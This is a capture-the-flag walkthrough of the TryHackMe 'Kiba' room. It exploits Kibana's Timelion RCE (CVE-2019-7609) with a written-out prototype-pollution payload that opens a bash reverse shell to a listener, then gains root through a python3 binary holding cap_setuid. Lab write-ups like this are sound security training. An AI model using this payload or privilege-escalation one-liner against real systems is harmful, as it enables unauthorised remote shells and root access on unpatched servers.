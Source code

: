 # TryHackMe kiba [room](https://tryhackme.com/room/kiba) writeup.


Nmap scan (consider that the machine took me about 5 minutes to fully boot):

>nmap -p- -Sc [target-ip]


While we wait for nmap to finish let's check the default port 80:

![port80](port80.png)

Nothing interesting, just one hint "linux capabilities" we'll need them later to privesc.

![nmap](nmap.png)

Nmap shows us multiple ports but the one that we need is 5601, let's check it.
Right now we need to find the kibana version, after exploring the website a bit we can see the version in "management" tab.

![version](version.png)

With that information we go right into google: after a little bit of research we can find out that Kibana versions before 5.6.15 and 6.6.1 contain an RCE, and in order to exploit that we need to use timelion with a payload and setup a netcat listener.

![version](timelion.png)

Payload that i've used:

>.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/IP/PORT 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

Don't forget to change the ip and set the port you listen on.
After that press "run" button and click on "canvas" tab.

It actually took me a lot of tries before catching a shell, so if you don't catch it just re-do the same method with a different payload.

The payloads and a more detailed [explanation](https://github.com/mpgn/CVE-2019-7609).

And we're in.

![version](user.png)

Now we need to escalate. The questions N5-6 provides us a hint, "linux capabilities", in order to search those we can just type:

>getcap -r /

or even better:

>getcap -r / 2>/dev/null

![version](getcap.png)

Well... as we can see there's one ".hackmeplease" folder so i guess we'll check that... We can see that we have all needed permission on that file and also a "cap_setuid+ep" that means we can change our UID! Exploiting it is easy, we'll use that file to spawn a shell as root by using python:

>./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![privesc](privesc.png)

For any questions reach me through THM's discord.
